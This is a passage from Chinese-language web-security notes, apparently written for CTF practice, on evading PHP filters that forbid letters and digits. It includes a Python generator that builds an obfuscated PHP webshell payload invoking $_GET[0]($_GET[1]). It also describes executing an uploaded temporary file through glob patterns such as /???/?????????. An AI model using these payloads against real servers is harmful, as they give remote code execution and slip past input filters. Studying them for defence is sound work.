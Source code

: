   复制

  ```
  #关键字构造
  #$_GET[0]($_GET[1]);
  need = 'GET'
  
  alpha = list(set(need))
  alpha.sort()
  print(alpha)
  greece = 'α β γ δ ε ζ ν ξ ο π ρ σ η θ ι κ λ μ τ υ φ χ ψ ω Γ Δ'.split(' ')
  
  out = '$_=C;'
  cnt = ord('C')
  
  for k in alpha:
  	if ord(k)-ord('C') in range(26):
  		now_php = ''
  		for i in range(ord(k)-cnt):
  			now_php += '$_++;'
  			cnt += 1
  		icon = greece[ord(k)-ord('C')]
  		now_php += f'${icon}=$_;'
  		out += now_php
  
  func = []
  for k in need:
  	if ord(k)-ord('C') in range(26):
  		icon = greece[ord(k)-ord('C')]
  		func += [f'${icon}']
  	else:
  		func += [k]
  func = '.'.join(func)
  print(func)
  
  payload = f'{out}?><?=(${{_.{func}}}[0])(${{_.{func}}}[1]);'
  print(payload)
  ```

- 文件上传+执行

  参考：

  https://blog.csdn.net/qq_46091464/article/details/108513145

  https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html

  发送一个上传文件的POST包，此时PHP会将我们上传的文件保存在临时文件夹下，默认的文件名是`/tmp/phpXXXXXX`，文件名最后6个字符是随机的大小写字母。

  执行`. /tmp/phpXXXXXX`，也是有字母的。此时就可以用到Linux下的glob通配符：

  - `*`可以代替0个及以上任意字符

  - `?`可以代表1个任意字符

    那么，`/tmp/phpXXXXXX`就可以表示为`/*/?????????`或`/???/?????????`。
